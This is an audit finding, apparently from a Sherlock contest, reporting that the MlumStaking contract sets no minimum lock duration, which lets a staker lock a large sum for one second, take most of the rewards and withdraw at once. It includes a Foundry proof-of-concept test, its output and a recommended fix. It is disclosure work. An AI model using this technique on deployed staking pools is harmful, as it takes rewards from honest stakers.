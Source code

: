 Muscular Pearl Sparrow

Medium

# Attackers can drain the rewards

## Summary
Due to the lack of a minimun `lockDuration`, users are able to create a position with 1 second as duration, get rewarded and then unlock their money.

## Vulnerability Detail
The `createPosition` function in `MlumStaking.sol` [checks if `lockDuration` is greater than 0](https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L357):
```solidity
    function createPosition(uint256 amount, uint256 lockDuration) external override nonReentrant {
        // no new lock can be set if the pool has been unlocked
        if (isUnlocked()) {
            require(lockDuration == 0, "locks disabled");
        }
```
However, due to the lack of a **minimum `lockDuration`** check, an attacker can create a position with a huge amount and 1 second as `lockDuration`, receive rewards, and withdraw their funds.

- Alice creates a position and locks 100e18 for 30 days.
- Bob creates a position and locks 100e18 for 30 days.
- Charlie (malicious actor) creates a position and locks 10,000e18 for 1 second.
- The admin mints 100e6 rewards for MlumStaking.
- Alice calls harvest and receives 1,137,805 tokens (1.14%).
- Bob calls harvest and receives 1,137,805 tokens (1.14%).
- Charlie calls harvest and receives 97,724,389 tokens (97.72%), then immediately calls `withdrawFromPosition` to withdraw his funds, while Alice's and Bob's funds remain locked until their lockDuration expires.

### Coded PoC
Above scenario is implemented in this test code
Please add this test function to `MlumStaking.t.sol`

```solidity
    function test_DrainRewards() public {
        _stakingToken.mint(ALICE, 100 ether);
        _stakingToken.mint(BOB, 100 ether);
        _stakingToken.mint(CHARLIE, 10000 ether);

        vm.startPrank(ALICE);
        _stakingToken.approve(address(_pool), 100 ether);
        _pool.createPosition(100 ether, 30 days);
        vm.stopPrank();

        vm.startPrank(BOB);
        _stakingToken.approve(address(_pool), 100 ether);
        _pool.createPosition(100 ether,  30 days);
        vm.stopPrank();

        vm.startPrank(CHARLIE);
        _stakingToken.approve(address(_pool), 10000 ether);
        _pool.createPosition(10000 ether, 1 seconds);
        vm.stopPrank();

        skip(1 seconds);

        _rewardToken.mint(address(_pool), 100_000_000);

        vm.prank(ALICE);
        _pool.harvestPosition(1);

        vm.prank(BOB);
        _pool.harvestPosition(2);

        // Charlie harvests and withdraws his money
        vm.startPrank(CHARLIE);
        _pool.harvestPosition(3);
        _pool.withdrawFromPosition(3, 10000 ether);
        vm.stopPrank();
        assertEq(_stakingToken.balanceOf(CHARLIE), 10000 ether);

        console.log("%s%s", "Alice's reward:    ",_rewardToken.balanceOf(ALICE));
        console.log("%s%s", "Bob's reward:      ",_rewardToken.balanceOf(BOB));
        console.log("%s%s", "Charlies's reward: ",_rewardToken.balanceOf(CHARLIE));
    }
```
Run the test:
```bash
forge test --mt test_DrainRewards -vv
```
Output:
```bash
Compiler run successful!

Ran 1 test for test/MlumStaking.t.sol:MlumStakingTest
[PASS] test_DrainRewards() (gas: 1172376)
Logs:
  Alice's reward:    1137805
  Bob's reward:      1137805
  Charlies's reward: 97724389

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 3.36ms (472.40µs CPU time)
```
## Impact
Attackers can drain the rewards from pools

## Code Snippet
https://github.com/sherlock-audit/2024-06-magicsea/blob/main/magicsea-staking/src/MlumStaking.sol#L357

## Tool used

Manual Review

## Recommendation
There should be a minimum `lockDuration` check in `createPosition`